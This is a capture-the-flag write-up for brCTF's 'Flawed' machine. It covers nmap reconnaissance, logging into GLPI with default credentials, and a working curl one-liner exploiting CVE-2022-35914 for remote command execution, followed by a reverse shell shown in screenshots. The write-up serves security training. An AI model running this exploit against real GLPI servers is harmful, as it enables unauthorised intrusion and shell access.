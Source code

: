 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respecfully.

We modify the exploit to get a reverse shell on out netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connection-received.png "a title")
